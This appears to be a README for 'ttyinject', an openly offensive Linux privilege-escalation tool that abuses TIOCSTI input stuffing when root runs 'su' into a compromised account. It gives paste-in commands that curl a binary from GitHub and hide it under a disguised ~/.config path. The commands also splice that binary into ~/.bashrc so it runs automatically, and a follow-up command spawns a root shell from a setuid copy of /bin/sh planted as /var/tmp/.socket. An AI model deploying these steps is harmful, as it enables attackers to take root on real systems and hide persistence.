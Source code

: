 # Alice gets ROOT when ROOT does 'su alice'.  
(The oldest trick in the book - TTY / TIOCSTI stuffing)

Useful when all other exploits fail.

Typically used when the attacker has a shell as user 'apache', 'php' or 'postgresql'. Alice is used as an example only.

## Deploy
Cut & paste the following into Alice's shell:
```shell
mkdir -p ~/.config/procps 2>/dev/null
curl -o ~/.config/procps/reset -fsSL "https://github.com/hackerschoice/ttyinject/releases/download/v1.1/ttyinject-linux-$(uname -m)" \
&& chmod 755 ~/.config/procps/reset \
&& if grep -qFm1 'procps/reset' ~/.bashrc; then echo >&2 "Already installed in ~/.bashrc"; else \
echo "$(head -n1 ~/.bashrc)"$'\n'"~/.config/procps/reset 2>/dev/null"$'\n'"$(tail -n +2 ~/.bashrc)" >~/.bashrc; fi
```

Wait for ROOT to execute 'su alice' and thereafter gain root with:
```
/var/tmp/.socket -p -c "exec python3 -c \"import os;os.setuid(0);os.setgid(0);os.execl('/bin/bash', '-bash')\""
```
---

## Why this works:  
TL;DR:
* `su` does not allocate a new TTY when switching to a non-privileged user. 
* User can then use TIOCSTI ioctl calls to inject input into the root's TTY.
* The (example) injected input copies `/bin/sh` to `/var/tmp/.socket` and +s the same.
* Executes only once (from Alice's `~/.bashrc`). Deletes itself afterwards.

Read the source for more details.
